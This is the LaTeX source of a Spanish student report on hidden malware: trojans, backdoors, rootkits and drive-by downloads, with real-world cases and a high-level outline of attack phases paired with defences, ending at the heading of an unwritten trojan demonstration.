\documentclass[12pt]{article}

% Handle characters beyond ASCII nicely
\usepackage[utf8]{inputenc}

% Change the language for the captions and default names
\renewcommand{\figurename}{Figura}
\renewcommand{\tablename}{Tabla}
\renewcommand{\refname}{Referencias}

% Make the References section show up in the table of contents
\usepackage[nottoc, numbib]{tocbibind}

% Bibliography stuff:
    % bib:malware_nodes
    % bib:malware_hybrid -> M. Eskandari and S. Hashemi “Metamorphic malware detection using control flow graph mining”. International Journal of Compute Science Network Security,pp 1-6 ,2011

% Let us cite the bibliography entries
\usepackage{cite}

% Time to add images
\usepackage{graphicx}
\graphicspath{{img/}}

% Links please!
\usepackage{hyperref}

% Link style!
\hypersetup{
    colorlinks = true,
    linkcolor = blue,
    filecolor = magenta,
    urlcolor = cyan,
}
\urlstyle{same}

% Modify the margins
\usepackage{geometry}
\geometry{
    a4paper,
    left = 18mm,
    right = 18mm,
    top = 14mm,
}

% Enable fixed-width centered columns
\usepackage{array}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}

% Insert space between paragraphs
\newcommand{\newpar} {
    \vskip 0.5cm
}

% Remove the title page's number
\usepackage{titling}

\title{Investigación sobre el \texttt{malware} oculto \thanks{Proudly made with \LaTeX}}
\author{Noelia Díaz-Pinto Morcillo \\ Cristian Camilo Morales Tapias \\ Ricardo Alfonso Casanova Lozano \\ Carlos Ortega Marchamalo \\ Pablo Collado Soto \\ \\ \textbf{\texttt{Seguridad}} \\ \\ \textbf{Universidad de Alcalá}}
\date{}

\begin{document}
    \begin{titlingpage}
        \maketitle
        \begin{figure}[!htb]
            \centering
            
\includegraphics[width=0.6\linewidth]{cover_pic.jpg}
        \end{figure}
    \end{titlingpage}

    \newpage
    \tableofcontents
    \newpage

    \section{Introducción}
        Con el aumento del uso de las nuevas tecnologías en general y de \texttt{Internet} en particular se han incrementado los ataques e intrusiones a equipos e información. Esto puede comprometer la integridad, confidencialidad y disponibilidad de los recursos del sistema. Todo ello se debe a la creciente exposición ante ataques propiciados por un mayor conocimiento del funcionamiento de los sistemas por parte de los intrusos. Por ello están mejor preparados para encontrar y explotar vulnerabilidades. Gracias al fácil acceso y transmisión de información técnica que tenemos hoy en día, es posible incluso explotarlas desde el mismo momento en el que se da a conocer un \textit{software}. Estas son las llamadas vulnerabilidades \textit{zero-day}. Con la facilidad actual para encontrar "huecos" por los que "colarnos" en un sistema se abre la puerta a la proliferación de ataques con estrategias y tipos tremenedamente variados.

        \newpar

        A este tipo de \textit{software} cuyo objetivo es infiltrarse o dañar una computadora o un sistema de información sin el consentimiento del propietario se le conoce como 
        \texttt{malware}. Dependiendo de los efectos deseados de dicha pieza de código, el \texttt{malware} se puede clasificar en varios tipos. En el caso de nuestro grupo, nos centraremos en el \texttt{malware} oculto.

        \newpar

        Esta ocultación de \textit{software} malicioso se consigue normalmente empleando un método de \textbf{ofuscación} de su código de forma que oculta su flujo de control y su estructura quedando enmascarando su verdadera función de manera que la víctima no es consciente.

        \newpar

        Existen sistemas de detección de intrusiones o \textbf{IDS}s (\textbf{I}ntrusion \textbf{D}etection \textbf{S}ystem) que se implementan tanto en \textit{hardware} como en \textit{software} especializados en la automatización de la monitorización de redes y sistemas en busca de evidencias de violación de una determinada política de seguridad. Una adecuada elección y configuración del \textbf{IDS} puede incrementar en gran medida la seguridad de una red o sistema.

        \newpar

        A continuación ahondaremos en cada uno de los aspectos que definien al \texttt{malware} en general y al \texttt{malware} oculto en particular yendo de lo general a lo específico. Con ello esperamos haber sido concisos y explicativos en el siguiente documento. Gracias por su tiempo y atención.

    \section{¿Qué es el Malware?}
        Para poder llegar a comprender la definición de malware oculto, primero debemos analizar y entender lo que es el \texttt{malware}. La palabra malware proviene de la unión de dos palabras en inglés \textit{malicious} y \textit{software} con lo que su traducción sería programa malicioso. Es por ello que lo podemos entender el \texttt{malware} como todo tipo de software que ha sido creado con la intención de dañar cualquier sistema. El malware suele ser confundido por la mayoría de las personas con los virus, sin embargo, es importante destacar que los virus informáticos son un tipo específico de malware.

        \newpar

        El malware por lo general es creado por hackers con intenciones maliciosas. Algunas de los efectos que provocan son: dañar los dispositivos, robar datos e información personal de los usuarios, apropiarse de los recursos informáticos o negar el acceso a los mismos... Por otra parte, el objetivo de su creación está relacionado con la persona que lo diseña. Normalmente son creados para buscar algún beneficio económico, pero también han sido utilizados como una herramienta para protestas y en algunos casos incluso se ha llegado a usar como arma de guerra entre gobiernos. Destacamos que en el ámbito de la investigación se ha diseñado también malware con el objetivo de poner a prueba sistemas o de demostrar sus vulnerabilidades.

        \newpar

        En la actualidad, este tipo de programas ha encontrado en Internet el medio predilecto para poder propagarse, ya sea mediante páginas web infectadas, correo electrónico sospechoso que suele ser enviado en masa (conocido también como \textit{spam}), archivos compartidos en línea, demos de videojuegos, barras de herramientas o de cualquier otra cosa que se descargue de la red de redes. Muchas muestras reales de malware tienen también la capacidad de autopropagarse. Una vez que se ha infectado una máquina de una red local algunos "bichos" implementan técnicas de movimeinto lateral que les permiten infectar a máquinas de la misma red. Esto supone que no existe una fuente única: cada infectado puede muchas veces contagiar. Este hecho encuentra su reflejo en el mundo real. A pesar de lo brutal de la situación actual podemos aprender de ella y observar cómo de fácil es que se descontrole un virus. En el caso del malware podemos llegar a experimentar escenarios parecidos como fue el caso de la \textit{Mirai Botnet} que en su punto álgido llegó a componerse de $600,000$ equipos infectados tal y como vemos en \ref{mirai_art}.

        \newpar

        En los últimos años debido a la revolución que han tenido los dispositivos móviles, estos también se han convertido en un vector de ataque importante. La evolución y el aumento del uso ilegal de estos programas maliciosos ha derivado en la necesidad, casi obligatoria, de que los usuarios utilicen alguna herramienta que sirva para combatir este software malicioso, a esta herramienta la conocemos como \texttt{antimalware}.

        \newpar

        Como hemos comentado con anterioridad existe una gran variedad de malware, y dependiendo de las características de cada uno de ellos se han clasificado en los siguientes tipos:
        
        \begin{itemize}
            \item Infeccioso
            \item Oculto
            \item Espía o \textit{spyware}
            \item Publicitario o \textit{adware}
            \item Orientados a ataques de denegación de servicio (\textit{DDoS})
            \item Secuestro de información o \textit{ransomware}
            \item Engaño 
        \end{itemize}

        \newpar

        En nuestro caso hablaremos del malware oculto, y abarcaremos desde los diferentes tipos que existen hasta su respectivo método de propagación pasando por las medidas de prevención y defensa que se deben tomar para evitar el ataque de estos programas. Pasamos pues a profundizar en aquello que define al malware oculto.

        \subsection{¿Y qué es el malware oculto?}
            Un malware podrá alcanzar sus objetivos siempre y cuando permanezca oculto a la vista del usuario. Es por ello que denominamos malware oculto a aquellos programas nocivos cuyo ingreso al sistema y posterior ataque ocurre de manera silenciosa, es decir, sin que el usuario lo perciba y sin su consentimiento. Dentro de esta clasificación de malware oculto podemos de igual forma encontrar diversos malwares como son:

            \begin{itemize}
                \item Troyanos
                \item \textit{Backdoors}
                \item \textit{Drive-by downloads}
                \item \textit{Rootkits}
            \end{itemize}

            \newpar

            Unas de las mejoras que han ido perfeccionando los ciberdelincuentes en los últimos años es la posibilidad de ocultar el malware, por lo que este logra permanecer por bastante tiempo en nuestro dispositivo ejecutándose en un segundo plano.

            \newpar

            Algunos lugares que han sido utilizados por estos hackers maliciosos para ocultar los malwares son:

            % TODO: Decidir que 'Accesos directos' quedarnos!

            \begin{itemize}
                \item \textbf{El registro de Windows}: Varios programas han sido creados con la posibilidad de modificar este registro para poder controlar el tiempo en el que quieran que se ejecute el software, ya sea al iniciar el sistema o después de cada tiempo programado, entre otros.
                \item \textbf{Archivos y carpetas temporales}: Es uno de los lugares donde casi siempre se oculta el malware. Ejemplos claros de estos archivos y carpetas temporales son la caché de Internet o la de datos de las aplicaciones. Al almacenarse en estos lugares una gran cantidad de información del usuario, residir ahí les permite mutar y amenazar con eliminar o difundir la información que encuentren. Con ello pueden lograr maximizar su impacto y capacidad destructiva.
                \item \textbf{Accesos directos}: Abarca las páginas web que han sido modificadas para realizar sus ataques, de igual forma pueden incluir archivos ejecutables modificados que a vista del usuario sea difícil encontrar las diferencias con respecto al original.
                \item \textbf{Accesos directos}: Muchas veces modifican o crean accesos directos de aspecto legítimo que al ser ejecutados lanzan el propio programa malicioso. Esta similitud con los programas que un usuario espera encontrar supone una gran dificultad para su detección...
                \item \textbf{Descarga de archivos}: El malware puede entrar al sistema a través de archivos descargados, ya sean de música o simples documentos de \texttt{Word, Excel} o \texttt{PDF}. Lo mismo puede ocurrir con las aplicaciones. Todos ellos pueden haber sido modificados para albergar un malware que entrará en acción tan pronto como reproduzcamos, abramos o ejecutemos alguno de estos archivos.
                \item \textbf{E-mail}: Este es uno de los principales puntos de entrada de malware al sistema. Una forma muy popular de esparcir malware es a través de correo no deseado o \textit{SPAM}. Estos tipos de correos son un peligro inactivo hasta que el usuario por error entra en ellos y descarga algún archivo o entre en una página maliciosa. A modo de curiosidad destacamos que la palabra \textit{SPAM} deriva de un tipo de carne de consumo militar. Nunca sabes lo que puedes aprender...
            \end{itemize}

            \newpar

            El malware oculto también ha llegado al internet de las cosas o \textbf{IoT} (\textbf{I}nternet \textbf{o}f \textbf{T}hings) por sus siglas en inglés. Este nuevo paradigma que tiende a conectar todo dispositivo a Internet ha supuesto un aumento en el número de ciberataques. Dispositivos como cámaras \texttt{IP} y lámparas inteligentes son conocidos por las medidas de seguridad tan laxas que incorporan por lo que en la actualidad pueden llegar a convertirse en los puntos débiles dentro de nuestra red. Así, este tipo de equipos pueden servir de puente para realizar ataque a nuestros ordenadores o móviles. Un caso fehaciente de esto es la \textit{Mirai Botnet} que comentábamos antes. Tras haber infectado varias centenas de miles de equipos fue capaz de "tumbar" servicios preparados para aguantar grandes cargas de tráfico. Si bien este caso se relaciona con el malware cuyo objetivo es efectuar ataques de denegación de servicio nos muestra cómo cualquier vulnerabilidad es suficiente para que el malware pueda propagarse e infectar distintos equipos.

            \newpar

            Con todo, vamos a pasar a comentar instancias reales de este tipo de malware.

    \section{Tipos de malware oculto}
        Como hemos comentado, el mundo de los malwares es muy amplio y diverso con lo que nos encontramos muchos tipos diferentes. En nuestro caso nos centraremos en el malware oculto, que a su vez comprende muchas variantes y posibilidades. Nosotros las acotaremos centrándonos en los troyanos, las puertas traseras o \textit{backdoors}, los \textit{rootkits} y los \textit{drive-by downloads}, cuyas cualidades más reseñables comentamos más abajo.

        \subsection{Troyanos}
            Los troyanos son el primer paso de muchos ataques informáticos que se llevan a cabo. Su nombre se basa en la famosa leyenda de la mitología griega del caballo de Troya, una enorme estructura de madera que tenía el aspecto del propio animal y que, a primera vista, parecía no entrañar ningún peligro. No obstante, en su interior albergaba a varios soldados que empleaban este procedimiento para esconderse y no ser descubiertos. Al caer la noche los soldados tomaron la hasta entonces inexpugnable ciudad de Troya.

            \newpar

            Basándose en esa idea, este tipo de malware consiste en un programa que en primera instancia parece inofensivo, hasta el punto de poder resultar atractivo, por lo que las víctimas que lo padecen no son capaces de percibir su peligrosidad debido a su apariencia amigable. Sin embargo, una vez que se descarga y llega a ejecutarse, se pone en marcha su cometido real que no es otro que el de infectar la máquina que lo aloja para posibilitar que el atacante que se encuentra detrás de él se haga con el control de la misma, todo ello de manera transparente y prácticamente imperceptible para el usuario. Estos troyanos son muchas veces el punto de partida para ataques de mayor índole. Que pueden pasar por albergar e instalar otros tipos de malware en el equipo, por ejemplo.

            \newpar

            De este modo, en un primer momento, los troyanos se empleaban para realizar el mayor daño posible sin ningún tipo de miramiento. Intentaban desde formatear el ordenador envenenado a eliminar archivos del sistema. Sin embargo, no consiguieron la trascendencia y notoriedad que buscaban, limitados por la imposibilidad de propagarse y multiplicarse por si mismos. Esta es una diferencia notable con los virus y los gusanos informáticos y que les frenaba en gran medida. Por ello pasaron a buscar nuevos objetivos en los que enfocarse.

            \newpar

            Así, en la actualidad se puede llegar a lograr manejar archivos que se albergan en la máquina, copiándolos, eliminándolos o enviándolos, robar datos privados tales como números de tarjetas bancarias, controlar los procesos en ejecución, denegar el uso legítimo de servicios, obtener un registro de las pulsaciones que se producen así como de lo que se está visualizando en la pantalla. Para llevar a cabo estas acciones dependen de "terceros", esto es, programas específicos para llevar a cabo estas tareas.

            \newpar

            De forma similar, pueden también implementar diversos mecanismos que facilitan la conexión al ordenador desde otros lugares como, por ejemplo, las denominadas puertas traseras o \textit{backdoors}. Para realizar estas técnicas, los troyanos son capaces de abrir puertos de comunicaciones o \textit{sockets} de tal forma que se consigue abrir un punto a través del que es posible alcanzar el equipo infectado.

            \newpar

            Por tanto, el cometido principal de los troyanos es ocultarse a la víctima y esconder su funcionalidad maliciosa para, a continuación, después de lograr ponerse en funcionamiento al ejecutarse el programa que lo alberga lo que posibilita acciones malvadas llevadas a cabo por él mismo o por otros sistemas o individuos a los que facilita el acceso a la máquina infectada.

            \newpar

            Este tipo de malware puede situarse en páginas que no son muy frecuentadas y que, además, resultan hasta cierto punto desconocidas, en las cuales incluso pueden encontrarse aplicaciones ejecutables que, a primera vista, no parecen entrañar ningún peligro y pueden ser, del mismo modo, de confianza y legítimas. También pueden provenir de descargas realizadas en redes \texttt{P2P} (\textit{peer-to-peer}), en las que la seguridad no es una prioridad ya que son accesibles por todo el mundo y es posible alojar archivos en ellas sin que estén sujetos a controles exhaustivos.

            \newpar

            Los troyanos se componen de dos partes de vital importancia para su correcto funcionamiento e implementación. Así, constan de un cliente y un servidor, alojándose en la máquina atacada y atacante, respectivamente. Al estudiar las fases típicas de un ataque así como un ejemplo real ahondaremos más en este modelo cliente-servidor.

        \subsection{Backdoors}
            Una de las funcionalidades de las que hacen uso estos troyanos son las puertas traseras o \textit{backdoors}, por lo tanto, no constituyen un mecanismo independiente de ataque informático sino que más bien son un complemento a estos últimos.

            \newpar

            Los fines de las backdoors pueden resultar muy diversos y variados y no todos tienen por qué ser dañinos y perjudiciales. Pueden derivar de múltiples orígenes, no únicamente relacionadas a los troyanos, pues puede darse la situación de que los desarrolladores de sistemas y aplicaciones se olvidaran de eliminarlas o bloquearlas o, simplemente, continúen existiendo para efectuar determinadas tareas legales de mantenimiento o actualización de forma transparente al usuario, sin que se requiera de su participación y facilitando su experiencia y uso. Esto ocurre, por ejemplo, en equipos que reciben actualizaciones sin que su dueño sea consciente de ello. También se emplean estas \textit{backdoors} para solucionar problemas técnicos mediante el acceso remoto de un especialista sin que deba mediar el usuario.

            \newpar

            En cambio, en nuestro estudio nos centraremos en aquellas que están más enfocadas a realizar acciones negativas para la víctima y que atenten contra su privacidad e intimidad.

            \newpar

            Estos recursos, tal y como su nombre bien indica, favorecen esquivar los rigurosos controles de seguridad existentes para poder acceder a un ordenador y habilitan la entrada a la máquina de forma muy sencilla y asequible, lo que simplifica que el atacante pueda obtener el mando del mismo y poner en práctica actos malintencionados y nocivos para el dueño del dispositivo. A través de esta apertura secreta se consiguen ejecutar todas las acciones perjuiciosas comentadas anteriormente.

            \newpar

            Las backdoors se originan como consecuencia de la infeccción de una máquina por parte de un troyano aunque también pueden producirse por diversos fallos de seguridad que originan ciertos resquicios que son aprovechados por los atacantes.

            \newpar

            Las puertas traseras, tal y como hemos mencionado, se implementan abriendo puertos de comunicaciones que podemos considerar "puertas" a Internet. Con ello se pueden establecer conexiones con la máquina comprometida desde cualquier parte de la red de redes.

            \newpar

            En algunas situaciones el mecanismo de las \textit{backdoors} se emplea para crear \textit{botnets}, cuyo término proviene de la combinación de las palabras inglesas \textit{robot} y \textit{network}. No se trata de más que un conjunto de dispositivos controlados de manera remota. Es similar a un "ejército de máquinas zombies" a las que podemos ordenar tomar una serie de acciones. Los fines de este entramado se centran principalmente en generar ataques de denegación de servicio que impidan el acceso a determinadas páginas web por parte de otras personas. Para ello, hacen uso de la embergadura y capacidad del conjunto para colapsar los servidores de estos sitios efectuando un gran número de solicitudes, desencadenado el bloqueo y la caída de los mismos. Un ejemplo de ello es la \textit{Mirai botnet} que comentábamos en secciones anteriores. También se utilizan estas redes de robots para enviar masivamente los popularmente conocidos correos electrónicos basura o \textit{SPAM}, que no son más que emails con información poco relevante y que, además, pueden suponer un peligro para la seguridad de nuestros aparatos.

        \subsection{Rootkits}
            Los \textit{rootkits} son un tipo de malware que afecta al sistema operativo que se aloja en el ordenador. De este modo, logran modificar la configuración del mismo para posibilitar la presencia de mecanismos maliciosos sin que el usuario de la máquina logre percatarse de ello. Al igual que ocurre con los troyanos, no son capaces de propagarse automáticamente.

            \newpar

            Así, esta instancia es capaz de pasar desapercibida por la lista de procesos en funcionamiento e incluso por los propios antivirus. Asimismo son capaces de ocultar los archivos en los que residen y las conexiones de red que establecen con lo que son tremendamente complicados de detectar. Algunos incluso llegan a alojarse en los sectores de arranque del disco con lo que pasa a ser prácticamente imposible eliminarlos... En esos casos un formateo del disco suele ser la única solución con lo que su potencial destructivo es cuanto menos notable.

            \newpar

            Es posible, aprovechar estos accesos imperceptibles del tipo \textit{backdoor} para entrar de forma rápida y fácil al dispositivo desde el exterior y poder controlarlo para obtener información comprometida o poner en marcha acciones perversas tal y como sucede con los troyanos también.

            \newpar

            Para su instauración en un equipo se requieren permisos de escritura. El atacante, recurriendo a alguna vulnerabilidad presente en el aparato o conociendo la contraseña de un usuario con permisos puede adquirirlos. Con ello podría proceder a infectar el equipo con este tipo de malware.

            \newpar

            Distinguimos dos tipos de \textit{rootkit} según su persistencia. Por un lado, tenemos los \textit{rootkit persistentes} que se activan cada vez que se inicia todo el sistema y, por otra parte, los no persistentes, que desaparecen tras un reinicio. Como cabría esperar el primer tipo es el más complicado de eliminar.

            \newpar

            Considerando el modelo de ejecución que implementan encontramos aquellos que se limitan al espacio de usuario mientras que otros tienen por objetivo alojarse en el núcleo del sistema operativo o \textit{kernel}. Dado que esta parte del sistema cuenta con permisos elevados y tiene acceso a todos los recursos los \textit{rootkits} que se alojan aquí tienen el potencial para desatar el caos en la máquina afectada. Para alojarse en el \textit{kernel} los \textit{rootkits} suelen modificar la imagen de este en memoria a través del archivo \texttt{/dev/kmem} en Linux por ejemplo o hacer uso de los módulos que le podemos insertar a este mismo \textit{kernel}. Para que todo funcione este tipo de malware oculto suele alterar la tabla de llamadas al sistema para entrar en ejecución.

            \newpar

            En origen, esta actuación estaba destinada a entornos de tipo \texttt{UNIX}, de ahí su nombre pues en dicho ámbito al administrador del sistema se le denomina también como \textit{root}. Sin embargo, con el paso del tiempo buscaron un nuevo enfoque y se interesaron por máquinas equipadas con Windows en las que su comportamiento era exactamente el mismo.

            \newpar

            En cambio, no todo son conductas ilegales ya que se hallan contextos para los que sí son legítimos como, por ejemplo, la supervisión de los empleados de una empresa o corporación, la protección de datos intelectuales o frente a errores humanos como pueden ser borrados accidentales.

        \subsection{Drive-by download}
            El malware oculto de tipo \textit{drive-by download} es uno de los métodos de infeccción más simples que pueden existir. Su simplicidad radica en el hecho de que el usuario que va a ser víctima de él no debe realizar ninguna acción excepcional, pulsar en sitio alguno o aceptar ninguna descarga.

            \newpar

            El ataque se materializa cuando el individuo se adentra en una página web y, de manera inmediata y sin que muestre evidencia de ello, se inicia la bajada del programa pernicioso.

            \newpar

            Para ello, en esta técnica se esconde el software nocivo de diversas formas. Por una parte, este se incluye entre el propio código \texttt{HTML} de la página web. De forma similar, puede ocurrir que se resguarde detrás de los anuncios publicitarios que aparecen en ciertos de estos sitios visitados, aprovechando determinadas carencias que puedan presentar complementos como \texttt{Java}, \textit{Flash} u otros de idénticas características. Esta es una de las razones por las que \texttt{Flash} no va a tener soporte más allá de finales de este año.

            \newpar

            En estos casos, suele suceder que el código camuflado puede constituir tan solo una pequeña parte de todo el malware en conjunto, por lo que, una vez efectuado con éxito el ataque, se solicita de forma automática el contenido restante del mismo al servidor externo que lo alberga.

            \newpar

            Las páginas web que contienen estos programas pueden ser accedidas explícitamente por el usuario al ser conocedor de ellas y realizar su búsqueda en un navegador web, tal y como puede suceder con entornos de escasa seguridad relacionados con recursos un tanto peculiares como, por ejemplo, la pornografía. Un usuario también puede ser conducido a ellas a través de la recepción de correos electrónicos que le invitan a ello y ventanas emergentes. En este últimos caso, el aspecto familiar y aparentemente inofensivo favorece que la víctima en ningún momento llegue a sospechar de ellas.

            \newpar

            Conociendo ya los tipos de malware en los que se centra nuestro análisis pasamos a comentar casos de ataques reales.

    \section{Casos reales}
        Para que podamos comprender mejor el alcance que pueden llegar a tener este tipo de malware, hemos decidido recopilar información de algunos ataques reales que han sido realizados bajo la técnica del malware oculto y que han afectado a un gran número de usuarios, los cuales en algunos casos probablemente ni si quiera se han dado cuenta de haber sido comprometidos.

        \subsection{El "coronavirus" informático}
            Uno de los ataques más recientes con el uso de malware oculto está siendo el llamado \textit{"Coronavirus" informático} y es que los hackers están aprovechando la pandemia actual del \texttt{COVID-19} para ocultar malware dentro de todo tipo de documentos y vídeos. Este ataque esta siendo realizado por lo general en informaciones que nos llegan a nuestros dispositivos sobre cómo protegernos del coronavirus, los métodos de detección y actualizaciones sobre el estado de alarma. El usuario, al estar interesado en ellos, accede a abrirlos sin esperarse que estos archivos estén infectados.

            \newpar

            Según \texttt{Kaspersky}, la famosa empresa de ciberseguridad que desarrolla un antivirus homónimo, hasta la fecha han sido encontrados por los momentos $10$ archivos distintos con malware ocultos. Sin embargo, se estima de que la tendencia aumente debido es considerado un cebo perfecto, ya que es una información que se puede propagar de manera extraordinaria dentro de la población. Como podemos observar en la figura \ref{f:covid_malware} el número de dominios creados entorno al \texttt{COVID-19} ha ido aumentado de forma exponencial, es por ello que los expertos no dudan en que muchos de estos dominios terminen siendo usados por los hackers.

            \begin{figure}
                \centering
                
\includegraphics[width=0.5\linewidth]{covid_malware.png}
                \caption{Dominios creadoos entorno al \texttt{COVID-19}}
                \label{f:covid_malware}
            \end{figure}

        \subsection{Aplicaciones móviles ocultas}
            Según un estudio realizado por la compañía \texttt{McAfee} para el año $2019$, las aplicaciones móviles ocultas generaron aproximadamente el $50\%$ de todos los ataques a móviles de ese mismo año. El problema viene dado porque los hackers maliciosos han ido mejorando las formas de ocultar sus ataques, logrando que cada vez sean más difíciles de identificar y eliminar.

            \newpar

            Los hackers aprovechan generar versiones falsas de aplicaciones como \texttt{WhatsApp} o \texttt{Spotify} debido al alto impacto de descargas que estás pueden llegar a obtener. De igual forma se aprovechan de la popularidad de algunos juegos para engañar a los usuarios, y es que una vez el cliente haga uso de la \textit{app}, el atacante adquiere la capacidad de controlar todo el dispositivo y muchas veces el usuario ni se da cuenta de que esto está pasando.

        \subsection{Troyano Eurograbber}
            Durante el año $2012$, en Europa se vivió bajo la acción de un troyano conocido como \texttt{Eurograbber}. Este ataque ha sido uno de los grandes asaltos informáticos ya que se saldó con la sustracción de $36$ millones de euros en toda Europa, y es que este ataque afectó cerca de unos $30.000$ usuarios de banca de países como Alemania, Italia, Países Bajos y España.

            \newpar

            En España cerca de $11.000$ personas vieron sus cuentas bancarias afectadas, lo que le permitió a los ciberdelincuentes hacerse con un botín estimado de $5,8$ millones de euros. Los ataques por lo general eran realizados a dispositivos que basados en \texttt{Android} y a los de la marca \texttt{BlackBerry} que emplean un sistema operativo propio.

        \subsection{Troyanos en dispositivos móviles}
            En el año $2019$ se descubrió la existencia de un troyano oculto en la aplicación de \texttt{Android CamScanner}, la cual cuenta con más de $100$ millones de descargas en la \texttt{Google Play Store}. Este ataque fue descubierto gracias a las investigaciones de la empresa de seguridad \texttt{Kaspersky Lab}.

            \newpar

            El ataque se realizaba mediante una biblioteca de publicidad que contenía este componente malicioso. Al descargar la aplicación y ejecutarla, los hackers ya podían acceder al dispositivo infectado y beneficiarse de la manera que quisieran, desde mostrarle publicidad intrusiva hasta robar dinero de su cuenta móvil mediante el cobro de suscripciones.

            \newpar

            Este es uno de los casos de mayor alerta debido a que se trataba de una aplicación legítima de \texttt{Android} que usaba compras integradas y a que su monetización provenía de los anuncios. La aplicación en su momento fue eliminada por \texttt{Google} de la \texttt{Play Store} para evitar que los usuarios se siguieran viendo afectados.

        \subsection{Análisis de los troyanos en los últimos años}
            Hemos analizado el informe \texttt{Ciber amenazas 2015/2016} publicado por el \texttt{Centro Criptológico Nacional} donde se muestra el análisis del aumento de dichos ataques en España. En esta gráfica podemos de igual forma observar que más de la mitad de los ataques durante el año $2015$, fueron realizados mediante troyanos. La gráfica en cuestión se adjunta en la figura \ref{f:cyber_threats}.

            \begin{figure}
                \centering
                
\includegraphics[width=0.5\linewidth]{cyber_threats.png}
                \caption{Aumento de troyanos en los años 2015/2016}
                \label{f:cyber_threats}
            \end{figure}

            Otro estudio del año $2016$, realizado por la empresa \texttt{Cisco} analiza los principales ataques que recibían las empresas durante ese año, demostrando que dichos ataques no solo se relacionaban con la pérdida de dinero, sino que afectaban el prestigio y la reputación de cada compañía.

            \newpar

            En el análisis se puede apreciar que la principal vía de ataque es el uso de troyanos siendo el objetivo más común pedir una recompensa por la información que se comprometa. Estos troyanos suelen haber sido descargados mediante programas de manera oculta o instalados mediante aplicaciones de \texttt{Android}. De igual forma se puede observar en la gráfica de la figura \ref{f:atk_vec} que otros de los principales ataques son por el uso de enlaces malignos para obtener información de los usuarios.

            \begin{figure}
                \centering
                
\includegraphics[width=0.5\linewidth]{atk_vec.png}
                \caption{Principales vectores de ataque}
                \label{f:atk_vec}
            \end{figure}

            El $2018$, fue el año en el que los troyanos de banca móvil arrasaron, llegando a alcanzar el máximo histórico de número de paquetes de instalación con $61.000$. El crecimiento exponencial en este tipo de amenazas nos alerta de que el ataque mediante malwares móviles formará parte de la nueva tendencia global. Dentro de los principales países que se vieron afectados por dichos ataques se encuentra EEUU, Rusia y Polonia. Esta información se recoge en la figura \ref{f:troj_installs}.

            \begin{figure}
                \centering
                
\includegraphics[width=0.5\linewidth]{troj_installs.png}
                \caption{Número de instalaciones de troyanos}
                \label{f:troj_installs}
            \end{figure}


            De esta forma podemos comprobar que el nivel de uso de este tipo de malware oculto en los ciberataques que se realizan durante estos últimos años ha ido aumentado. Es por ello que debemos ser más conscientes de cómo pueden llegar a atacarnos y especialmente conocer de qué manera podemos defendernos y evitar de esta forma ser una de las víctimas.

    \section{Demostración: Generando una troyano}
        Para tratar de afianzar los conceptos aprendidos de la mejor manera posible hemos optado por preparar una pequeña demostración. Creemos que es importante tener primero una visión general de las fases de un ataque remoto para ser capaces de localizar dónde entra un troyano en juego. Nosotros demostraremos una parte mínima de lo que sería un ataque real pero preferimos exponer todo su desarrollo para facilitar la ubicación del lector. Con todo, pasamos a comentar \textit{grosso modo} las fases de un ataque.

        \subsection{Desglosando un ataque}
            \subsubsection{Reconocimiento}
                En esta fase nos centraremos en analizar la red en busca de objetivos valiosos para identificar posibles puntos de ataque y así poder planificar la estrategia. Para poder llevar a cabo esta labor solemos aplicar una serie de técnicas:

                \begin{itemize}
                    \item \textbf{\textit{Fingerprinting}}: Intentamos averiguar todo lo posible sobre la red objetivo a través de consultas en bases de datos como \texttt{WHOIS} que asocian nombres de dominio o direcciones \texttt{IP} a entidades concretas, por ejemplo. Podemos también optar por navegar por la web del objetivo, hacer consultas a servidores \texttt{DNS} para así obtener un rango de \texttt{IP}s atacables. Los defensores pueden tratar de mitigar esta recogida de información controlando qué se comparte en el dominio público y aplicando reglas adecuadas en firewalls.
                    \item \textbf{\textit{Scanning}}: Escaneamos los puertos de un objetivo para saber qué servicios está corriendo y saber qué opciones tenemos de cara a la incursión. Para prevenirlo debemos permitir acceso a la red solo a paquetes neceseraios.
                   \item \textbf{Enumeración}: Una vez identificados los servicios debemos recoger información como pueden ser las versiones o nombres de usuario que se emplean. Es por ello que se deben deshabilitar todos los servicios que no se empleen y que sean visibles a la red.
                   \item \textbf{\textit{Vulnerability Mapping}}: Una vez descubiertas las versiones y demás información debemos consultar las vulnerabilidades asociadas con las mismas y la manera de explotarlas.
                \end{itemize}

            \subsubsection{Acceso remoto}
